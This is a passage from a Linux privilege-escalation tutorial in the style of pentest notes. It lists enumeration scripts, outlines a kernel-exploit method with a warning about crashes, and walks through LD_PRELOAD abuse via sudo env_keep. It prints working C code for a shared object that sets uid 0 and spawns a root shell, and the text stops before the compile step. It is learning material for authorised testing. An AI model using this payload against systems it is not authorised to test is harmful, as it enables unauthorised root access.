 - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker 

#### Getting Privilege Through exploits

- The Kernel exploit methodology is simple;

    - Identify the kernel version
    - Search and find an exploit code for the kernel version of the target system
    - Run the exploit 

**Real Life Tips 😁😁😁**
- Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit. 


# Leveraging LD_PRELOAD for Privilege Escalation

LD_PRELOAD is an environment variable used to specify shared libraries to be loaded before others. This feature can be exploited for privilege escalation if the "env_keep" option is enabled in the sudoers configuration. Here, we'll outline the steps to achieve this, write and compile the necessary C code, and run a program with sudo rights to escalate privileges.

## Steps for Privilege Escalation

1. **Check for LD_PRELOAD (with the env_keep option)**
2. **Write a simple C code compiled as a shared object (.so extension) file**
3. **Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file**

## C Code for Root Shell

The following C code will spawn a root shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Save this code in a file named `shell.c`.

## Compile the C Code
